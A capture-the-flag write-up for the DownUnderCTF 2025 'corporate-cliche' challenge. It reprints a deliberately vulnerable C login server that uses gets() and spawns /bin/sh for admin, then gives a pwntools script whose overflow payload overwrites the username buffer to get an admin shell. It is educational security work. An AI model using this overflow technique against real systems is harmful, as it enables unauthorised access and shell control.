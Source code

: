 # RE: corporate-cliche

## The Challenge

Dear Jelly,

It's time to really **push the envelope** and go **above and beyond**! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,  
Blue Alder

AU: `nc chal.2025.ductf.net 30000`  
US: `nc chal.2025-us.ductf.net 30000`

---
## Code Analysis
For this challenge, we are given two files:
- `email_server`, and
- `email_server.c`

We can reason that these two files are the executable, and C language source code for said executable. We confirm this by opening `email_server` in a text editor:

![[./images/corporate-cliche-1.png]]
As expected, we see what we expect to see when opening a binary file in a text editor.  The "ELF" at the start of the file confirms that this is a Linux executable (Executable and Linkable Format).

It's time to take a closer look at the `email_server.c` file, since looking at the code will give us clues on how to exploit the program.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}
```

Here's a breakdown of what it does:
1. **User Input Handling**: It reads a username and password from the user.
2. **Admin Check**: If the username is "admin", it immediately rejects the login.
3. **Password Verification**: It checks if the entered credentials match any in the predefined `logins` array.
## The Exploit Plan
Straight away we can identify the weakness and avenue for exploit.

```
    char password[32];
    char username[32];

...

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);
```

For those that missed it, let me break this down...

The variable `password` stores its values in a 32-character array (or, a buffer). The issue lies in the use of `gets()` for password input, which doesn't check the length of the input, allowing for buffer overflow. That is to say, if we try to cram more than 32 characters into the `password` variable, we'll overflow the allocated memory for that variable and start writing to other memory locations. Specifically, we'll overwrite the `username` variable, since that just happens to be how the program will place these variables in memory (notice how the `password` variable was declared before `username`).

Our goal is to log in as "guest" but somehow bypass the admin check. Here's how we'll do it:
1. **Login as Guest**: First, we'll log in as "guest".
2. **Buffer Overflow**: Then, we'll send a password that's longer than the buffer size, causing it to overflow into the username buffer.
3. **Overwrite Username**: By carefully crafting our payload, we'll overwrite the username buffer with "admin".
## Crafting the Payload

To make a payload that works, we need send the correct password for the 'admin' user, followed by the null terminator (`\0x00`), then some padding to fill up the remaining characters until we get to 32, and finally the admin username 'admin'. The problem is we can't type the null terminator into the command line.

We'll write a Python script to interact with the email server. The script will open the connection to the server, then send the username `guest` to login. Finally, the script will send our crafted payload to set the admin password, overflow the buffer, and set the username to `admin`.

```
from pwn import *

p = remote("chal.2025.ductf.net", 30000)

p.sendline(b"guest")

payload = (
    b"\xf0\x9f\x87\xa6" +  # 🇦
    b"\xf0\x9f\x87\xa9" +  # 🇩
    b"\xf0\x9f\x87\xb2" +  # 🇲
    b"\xf0\x9f\x87\xae" +  # 🇮
    b"\xf0\x9f\x87\xb3" +  # 🇳
    b"\x00" +              # null terminator (works here!)
    b"A" * (32 - 21) +
    b"admin"
)

p.sendline(payload)

p.interactive()
```

## The Result
When we executed the script, it successfully logs us in as "admin" and opens a shell. Inside the shell, we find a `flag.txt` file containing the flag:

![[./images/corportate-cliche-2.png]]
### Conclusion
This challenge demonstrates the dangers of using unsafe functions like `gets()` and the importance of validating user inputs. It also shows how buffer overflows can be used to manipulate program execution, even in seemingly secure systems.
